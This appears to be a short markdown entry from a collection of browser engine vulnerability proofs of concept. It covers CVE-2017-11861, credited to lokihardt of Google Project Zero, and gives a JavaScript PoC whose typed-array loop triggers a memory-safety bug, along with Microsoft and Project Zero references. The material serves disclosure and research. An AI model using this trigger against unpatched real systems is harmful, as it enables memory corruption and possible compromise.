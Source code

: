 # CVE-2017-11861

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function f() {
    let arr = new Uint32Array(0x1000);
    for (let i = 0; i < 0x7fffffff;) {
        arr[++i] = 0x1234;
    }
}

f();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11861)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1343)
